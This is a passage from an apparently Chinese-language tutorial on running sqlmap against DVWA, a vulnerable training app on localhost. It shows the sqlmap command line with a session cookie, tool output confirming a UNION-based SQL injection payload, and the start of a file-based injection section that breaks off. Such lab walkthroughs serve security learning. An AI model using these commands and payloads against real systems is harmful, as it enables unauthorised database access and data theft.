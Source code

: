 ```php
sqlmap.py -u "http://127.0.0.1:82/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=cubjjq1a6oieurb2veql3a6pr4"

//成功溢出如下

[11:17:22] [INFO] testing connection to the target URL
[11:17:22] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[11:17:22] [INFO] testing if the target URL is stable
[11:17:23] [INFO] target URL is stable
[11:17:23] [INFO] testing if GET parameter 'id' is dynamic
[11:17:23] [WARNING] GET parameter 'id' does not appear to be dynamic
[11:17:23] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[11:17:23] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting attacks
[11:17:23] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] n
[11:17:45] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[11:17:45] [WARNING] reflective value(s) found and filtering out
[11:17:45] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[11:17:48] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:17:49] [INFO] target URL appears to have 2 columns in query
[11:17:49] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 10 columns' injectable
[11:17:49] [INFO] checking if the injection point on GET parameter 'id' is a false positive
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 77 HTTP(s) requests:
---
Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x716a6b6271,0x6e72425773714b684f666f586b525163774363526152416e53425343646a6d7154656b7663454d58,0x71717a7671)-- ejLT&Submit=Submit
---
[11:17:53] [INFO] testing MySQL
[11:17:53] [INFO] confirming MySQL
[11:17:53] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.23, PHP 7.0.13
back-end DBMS: MySQL >= 5.0.0
[11:17:53] [INFO] fetched data logged to text files under 'C:\Users\cmk\.sqlmap\output\127.0.0.1'

[*] shutting down at 11:17:53

``

## 以文件方式注入检测

![](images/injectbyFile.png)

```PHP
sqlmap.py -r E:\cmk\gtiwork\mysql\fn\sqlmap\testsqlmapbyFile.txt

//成功溢出如下

[11:27:08] [INFO] parsing HTTP request from 'E:\cmk\gtiwork\mysql\fn\sqlmap\testsqlmapbyFile.txt'
[11:27:08] [INFO] resuming back-end DBMS 'mysql'
[11:27:08] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
```